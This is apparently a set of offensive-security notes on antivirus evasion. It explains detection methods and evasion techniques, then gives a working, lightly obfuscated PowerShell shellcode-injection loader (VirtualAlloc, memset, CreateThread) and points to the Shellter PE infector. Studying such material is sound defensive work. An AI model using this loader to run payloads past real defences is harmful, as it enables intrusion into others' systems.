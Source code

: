 # Antivirus Evasion

## Antivirus detection methodologies

AV relies on multiple methods in order to detect malwares:

### Signature-based Detection

Signature-based is the most traditional method. The AV software compares files or strings against a database of known malware signatures. \
When it finds a match, it flags the file as malicious and quarantines it.

### **Heuristic-Based Detection**

Heuristics look for suspicious patterns or behaviors, such as code obfuscation, the use of certain functions often found in malware, or unusual file structures.&#x20;

### **Behavioral Detection**

Behavior based analyzes the behavior of a binary file, usually by executing the file in an emulated environment such sandboxes or virtual machines, searching for malicious actions

### **Machine Learning Detection**

Machine Learning detection uses algorithms trained on vast amounts of data to identify malware. The system learns to distinguish between legit and malicious files by collecting and analyzing additional metadata.

## Antivirus evasion methodologies

There are multiple ways to bypass AVs detections which usually used combined:

### **Obfuscators**

Obfuscators modify the malware’s code so that it appears harmless to signature-based detection tools. Common tactics include renaming variables, changing control flow, and inserting junk code that doesn’t affect the execution but hides the true intent of the malware.

### **Encryption and Packing**

Encryption and packing techniques are used to compress or encrypt the malware payload. \
The malware is packed or encrypted, so its true payload is only Unpacked or decrypted at runtime. &#x20;

### **Process Hollowing or Injection**

Process memory injection is a technique where malware injects its malicious code into the memory space of another legitimate process. The malware uses system API functions to write its payload into the address space of another process. \
Then, the code will be executed within the context of this legitimate process, making it harder for antivirus solutions to detect.

Process hollowing is a stealthy technique where a legitimate process is launched and then its memory is replaced with malicious code.\
Once the process is in memory but before it starts execution, the malware “hollows out” the legitimate process's memory, replacing it with the malicious payload.&#x20;

***

## Antivirus evasion in practice

### Process Injection

The following example will demonstrate a malicious PowerShell script involving Process Shellcode Injection combined with Obfuscators method.

The source code bellow is a PowerShell Cmdlet which defines several Windows API functions.\
These Win API Functions enable memory management allowing manipulate memory and create threads directly.  Also, the variables names use to obfuscate the code.

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;
```

The source code below shows the usage of the Win API and injecting the shellcode in to the legitimate process memory space.

```powershell
[Byte[]];   
[Byte[]] $var1 = <shellcode>

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

### Shellter

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.\
It can be used in order to inject shellcode into native Windows applications.

Shellter provides interactive mode and easy to operate.

> Our **primary focus** has been on **enhancing runtime evasion** to ensure your beacons and payloads are loaded as safely as possible against modern EDR solutions.

```
sudo apt install shellter
```

{% embed url="https://www.kali.org/tools/shellter/" %}
